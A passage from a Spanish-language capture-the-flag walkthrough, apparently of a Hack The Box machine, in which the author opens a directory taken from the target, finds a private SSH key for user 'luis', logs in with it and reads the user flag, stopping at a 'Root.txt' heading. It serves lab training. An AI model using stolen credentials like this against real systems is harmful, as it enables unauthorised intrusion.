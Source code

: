 Una vez descomprimido el archivo, se habrá creado un directorio con nombre `dashboard`, si accedemos a el, podremos ver el contenido del directorio `.ssh` de la máquina víctima.

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ cd dashboard/uploads/.ssh
┌─[z3r0byte@z3r0byte]─[~/Descargas/dashboard/uploads/.ssh]
└──╼ $ ls
authorized_keys  id_rsa  id_rsa.pub
```
Y en efecto, como habíamos predicho, nos encontramos con un certificado `id_rsa` que podremos utilizar para conectarnos por `SSH` como usuario `luis`.

Bien, hagamoslo entonces:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas/dashboard/uploads/.ssh]
└──╼ $ ssh -i id_rsa luis@10.10.10.250
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 14 Nov 2021 07:27:48 PM UTC

  System load:  0.1               Processes:             174
  Usage of /:   47.2% of 9.58GB   Users logged in:       1
  Memory usage: 45%               IPv4 address for eth0: 10.10.10.250
  Swap usage:   0%


22 updates can be applied immediately.
15 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Nov 14 19:25:52 2021 from 10.10.16.89
luis@seal:~$ 
```
Una vez en este punto, podremos ver la flag `user.txt` en la ruta `/home/luis/user.txt`:

```bash
luis@seal:~$ cat /home/luis/user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
# Root.txt


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'